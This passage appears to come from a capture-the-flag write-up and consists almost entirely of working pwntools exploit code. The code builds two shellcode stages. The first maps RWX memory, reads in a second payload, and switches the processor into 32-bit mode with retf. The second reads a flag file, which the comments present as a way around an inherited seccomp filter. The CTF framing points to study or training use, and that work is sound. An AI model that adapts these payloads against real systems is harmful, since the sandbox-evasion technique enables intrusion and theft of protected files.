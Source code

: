 So, here are our payloads:

```python
def craft_shellcode_stage1():
    shellcode = asm('''
    // void *mmap(void *addr, size_t length, int prot, int flags, int fd, off_t offset);
    // unsigned long mmap(unsigned long addr, unsigned long len, unsigned long prot, unsigned long flags, unsigned long fd, unsigned long pgoff);
    xor rax,rax
    mov al,  9
    mov edi, 0xcafe0000 
    mov rsi, 0x2000
    mov rdx,0x7  /* RWX */
    mov r10,0x32 /* MAP_ANONYMOUS | MAP_PRIVATE | MAP_FIXED */
    xor r8,r8
    xor r9,r9
    syscall

    // eax = 0xcafe0000
    // ssize_t read(unsigned int fd, char __user *buf, size_t count)
    xor rdi,rdi
    mov rsi, rax
    mov rdx, 0x1000
    mov eax, 0
    syscall

    // jump to 32-bit assembly via `retf`
    mov eax, 0xcafe0000
    mov ebx, 0x23
    sub rsp, 8
    mov dword ptr [rsp], eax
    mov dword ptr [rsp+4], ebx
    ''')
    shellcode += b'\xcb' # retf so that we switch processor mode to 32-bit.

    padded_shellcode = shellcode + b'\x90'*(0x100 - len(shellcode)) # pad with NOPs.
    assert(len(padded_shellcode) == 0x100)
    return padded_shellcode

def craft_shellcode_stage2():
    # pwnlib.shellcraft.i386.linux.sh() will not work because of the inherited seccomp filter.
    # We get SIGSYS, which is how seccomp violating processes get killed

    with context.local(arch='i386', bits=32):
        flag_file = '/flag' if args['REMOTE'] else './public/bin/flag'
        shellcode = asm(
            '''
            mov     esp, 0xcafe1000
            xor     edx, edx /* O_RDONLY */
            ''' +
            pwnlib.shellcraft.i386.linux.cat(flag_file)
        )
    
    padded_shellcode = shellcode + b'\x90'*(0x2000 - len(shellcode)) # pad with NOPs.
    assert(len(padded_shellcode) == 0x2000)
    return padded_shellcode
```
